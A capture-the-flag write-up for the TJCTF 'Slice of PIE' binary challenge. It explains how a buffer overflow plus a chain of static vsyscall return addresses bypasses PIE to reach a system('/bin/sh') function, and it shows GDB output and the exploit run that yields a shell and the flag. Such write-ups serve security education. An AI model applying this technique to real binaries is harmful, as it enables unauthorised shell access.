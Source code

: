 # Slice of PIE
Binary

## Challenge 

Everyone wants a slice of the PIE... can you get one?

No brute forcing required, but if you really want to fully brute force PIE/libc/stack I wont stop you...

nc p1.tjctf.org 8004

## Solution

***I had a partial solution during the CTF as I was not familiar with PIE-enabled binary files. I only managed to solve this shortly after the CTF has ended.***

#### Decompile the binary

Original decompilation in Ghidra

> [decompiled.c](decompiled.c)


Main function.

	undefined8 FUN_00100a34(void){ 
	  printf("Length: ");
	  local_10 = FUN_001009a0; // PLACED ON STACK
	  local_14 = 0;
	  __isoc99_scanf(&DAT_00100ba5,&local_14); // "%u"
	  getchar();
	  if ((local_14 & 7) == 0) {
	    printf("Input: ");
	    FUN_001009b3((ulong)local_14);
	  }
	  else {
	    puts("Bad length");
	  }
	  return 0; // 0xb0f
	}

The main function asks us to specify number of bytes first, then use `read()` to get our specified number of bytes.

	undefined8 FUN_001009b3(int iParm1){
	  ssize_t sVar1;
	  undefined local_18 [16];
	  
	  buffer = local_18;
	  while (count < iParm1) {
	    sVar1 = read(0,buffer,(long)(iParm1 - count)); // Returns the number of bytes that were read
	    count += sVar1;
	    buffer += sVar1;
	  }
	  return 0;
	}

From main, we also see there is a convenient function placed on the stack for us...

	void FUN_001009a0(void){
	  system("/bin/sh");
	  return;
	}

We simply need to return to this function.

#### Position-independent executable (PIE)

Using checksec, we see that the executable has PIE enabled. This means that the addresses are randomized every time it is launched.

	$ pwn checksec ./slice_of_pie 
	[*] '/FILES/slice_of_pie'
	    Arch:     amd64-64-little
	    RELRO:    Full RELRO
	    Stack:    No canary found
	    NX:       NX enabled
	    PIE:      PIE enabled

Note: by default when debugging in GDB, GDB maintains a [consistent base address between runtime](https://stackoverflow.com/questions/22148084/pie-base-address-is-fixed-in-gdb), but you can turn it off to see the effect of ASLR.

	set disable-randomization off

In GDB we can take a look at the starting addresses.

	(gdb) info proc mappings
	process 7939
	Mapped address spaces:

	          Start Addr           End Addr       Size     Offset objfile
	      0x555555554000     0x555555555000     0x1000        0x0 /FILES/slice_of_pie
	      0x555555754000     0x555555755000     0x1000        0x0 /FILES/slice_of_pie
	      0x555555755000     0x555555756000     0x1000     0x1000 /FILES/slice_of_pie
	      0x7ffff7e0b000     0x7ffff7e2d000    0x22000        0x0 /usr/lib/x86_64-linux-gnu/libc-2.27.so
	      0x7ffff7e2d000     0x7ffff7f73000   0x146000    0x22000 /usr/lib/x86_64-linux-gnu/libc-2.27.so
	      0x7ffff7f73000     0x7ffff7fbe000    0x4b000   0x168000 /usr/lib/x86_64-linux-gnu/libc-2.27.so
	      0x7ffff7fbe000     0x7ffff7fc2000     0x4000   0x1b2000 /usr/lib/x86_64-linux-gnu/libc-2.27.so
	      0x7ffff7fc2000     0x7ffff7fc4000     0x2000   0x1b6000 /usr/lib/x86_64-linux-gnu/libc-2.27.so
	      0x7ffff7fc4000     0x7ffff7fca000     0x6000        0x0 
	      0x7ffff7fd1000     0x7ffff7fd3000     0x2000        0x0 [vvar]
	      0x7ffff7fd3000     0x7ffff7fd5000     0x2000        0x0 [vdso]
	      0x7ffff7fd5000     0x7ffff7fd6000     0x1000        0x0 /usr/lib/x86_64-linux-gnu/ld-2.27.so
	      0x7ffff7fd6000     0x7ffff7ff4000    0x1e000     0x1000 /usr/lib/x86_64-linux-gnu/ld-2.27.so
	      0x7ffff7ff4000     0x7ffff7ffc000     0x8000    0x1f000 /usr/lib/x86_64-linux-gnu/ld-2.27.so
	      0x7ffff7ffc000     0x7ffff7ffd000     0x1000    0x26000 /usr/lib/x86_64-linux-gnu/ld-2.27.so
	      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x27000 /usr/lib/x86_64-linux-gnu/ld-2.27.so
	      0x7ffff7ffe000     0x7ffff7fff000     0x1000        0x0 
	      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]
	  0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]

Observing the address start points with a few runtimes, we soon realise vsyscall stays static even if ASLR is enabled. (Additional info on syscall functions: https://filippo.io/linux-syscall-table/)

This is the disassembly of vsyscall. It moves in the syscall number and then returns back.

	(gdb)  x/5i 0xffffffffff600000
	   0xffffffffff600000:	mov    $0x60,%rax
	   0xffffffffff600007:	syscall 
	   0xffffffffff600009:	retq   
	   0xffffffffff60000a:	int3   
	   0xffffffffff60000b:	int3   

If you remember our basic buffer overflow and ROP, we know that the stack is as follows

	Let's say I want to call functionA(param1, param2) then functionB(void),
	I will have this payload:

	[Fill array buffer]
	[Address of functionA]
	[Address of functionB]
	[Address of param1]
	[Address of param2]

Notice that after returning to functionA, we will return to functionB directly after in the buffer.

Similarly, when we call vsyscall, we will be returning to the next address in the stack. We can make use of this to traverse up the stack until we reach the desired function.

---

Testing in GDB. I did it for a few iterations until I understood how it works.

	(gdb) br *(0x0000555555554000+0xb0f)
	(gdb) r < my_payload.txt 
	(gdb) info stack

Hence, our plan of the stack layout is as follows. We can get a shell by overriding the stack with vsyscall until we reach the system function.

	[Fill array buffer]
	[vsyscall]
	...
	[vsyscall]
	[address of system function]

We can quickly bruteforce the number of vsyscall returns.

	# python pie_exploit.py 
	Trying 1 vsyscall
	[+] Opening connection to p1.tjctf.org on port 8004: Done
	[*] Switching to interactive mode
	Length: [*] Got EOF while reading in interactive
	[*] Interrupted

	Trying 2 vsyscall
	[+] Opening connection to p1.tjctf.org on port 8004: Done
	[*] Switching to interactive mode
	Length: Input: total 36
	dr-xr-xr-x 1 app  app  4096 Apr  2 22:23 .
	drwxr-xr-x 1 root root 4096 Apr  2 15:50 ..
	-r--r--r-- 1 app  app   220 Aug 31  2015 .bash_logout
	-r--r--r-- 1 app  app  3771 Aug 31  2015 .bashrc
	-r--r--r-- 1 app  app   655 May 16  2017 .profile
	-r-xr-xr-x 1 root root   25 Apr  2 22:22 flag.txt
	-r-xr-xr-x 1 root root 6136 Apr  2 22:22 slice_of_pie
	-r-xr-xr-x 1 root root   74 Apr  2 22:22 wrapper
	$ cat flag.txt
	tjctf{1snt_vsysc4l1_gr8?}

In this case, with 2 vsyscall returns, we can get a shell.

Reading Resources:

- http://eternal.red/2017/wiki-writeup/
- https://github.com/sixstars/ctf/tree/master/2015/hack.lu/Exploit/hackme/writeup
- https://uaf.io/exploitation/2016/01/31/HackIM-CTF-Sandman-Exploitation-200.html
- https://github.com/Caesurus/CTF_Writeups/tree/master/2017-GoogleCTF_Quals/wiki
- https://github.com/guyinatuxedo/ctf/tree/master/googlequals17/pwn/wiki
- https://github.com/ByteBandits/writeups/tree/master/hack.lu-ctf-2015/exploiting/Stackstuff/sudhackar
- https://nandynarwhals.org/hitbgsec2017-1000levels/
- https://gist.github.com/kholia/5807150
- https://cybersecurity.upv.es/attacks/offset2lib/offset2lib.html
- http://wapiflapi.github.io/2014/04/30/getting-a-shell-on-fruits-bkpctf-2014/

## Flag

	tjctf{1snt_vsysc4l1_gr8?}
